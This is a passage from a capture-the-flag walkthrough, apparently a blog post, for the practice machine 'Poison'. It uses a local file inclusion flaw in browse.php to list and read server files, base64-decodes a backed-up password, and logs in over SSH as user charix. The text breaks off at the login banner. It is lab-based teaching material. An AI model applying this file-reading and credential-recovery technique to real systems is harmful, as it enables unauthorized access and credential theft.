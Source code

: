 Amazing, now we have a full list of users with potential target called `charix` and possibility to view any file on the sytem. But before looking for misconfigurations, I've viewed other files from the main page and in the `listfiles.php` there is an interesting find. File called `pwdbackup.txt`. 

{% highlight text %}
http://10.10.10.84/browse.php?file=listfiles.php
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt )
{% endhighlight %}

Let's view it. 

{% highlight text %}
http://10.10.10.84/browse.php?file=pwdbackup.txt
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
{% endhighlight %}

Now we can decode it, 13 times as specified in the file. We can use it by hand or write a script, doesn't matter as the number of encode operations is small enough. 

{% highlight text %}
root@kali:~# echo "Q2hhcml4ITIjNCU2JjgoMA==
> " | base64 -d
Charix!2#4%6&8(0
{% endhighlight %}

By the last time, we get, what looks like a password to the `charix` account. Let's try and `ssh` into the server with that credentials. 

{% highlight text %}
root@kali:~# ssh charix@10.10.10.84
Password for charix@Poison:
Last login: Sun Jul  8 16:16:28 2018 from 10.10.14.246
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier